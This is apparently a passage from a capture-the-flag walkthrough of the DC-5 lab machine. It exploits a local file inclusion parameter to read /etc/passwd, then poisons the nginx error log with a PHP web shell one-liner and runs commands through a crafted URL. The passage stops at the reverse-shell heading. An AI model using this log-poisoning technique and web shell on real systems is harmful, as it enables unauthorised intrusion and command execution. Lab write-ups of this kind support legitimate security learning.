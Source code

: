 Here I found the `file` parameter and using it we can read files too.
![etc-passwd](/assets/img/dc-5/passwd.png)

# Web Shell via Log Poisoning
Log Poisoning is to put some php into the logs, and then load using lfi. We know that nginx server stored logs in /var/log/ngnix/error.log. The easy way would be to add php code in url it will get written in the log file and then access it with lfi.

## Inject the PHP code 
I inject the php code to get the command line access by making a GET request to the server.

```php
<?php system($_GET['cmd']) ?>
```

![phpinjection](/assets/img/dc-5/phpinjection.png)
## Getting reverse shell
To get code execution on site I added `cmd` parameter to URL.
It looks like this
>http://192.168.1.6/thankyou.php?file=/var/log/nginx/error.log&cmd=id
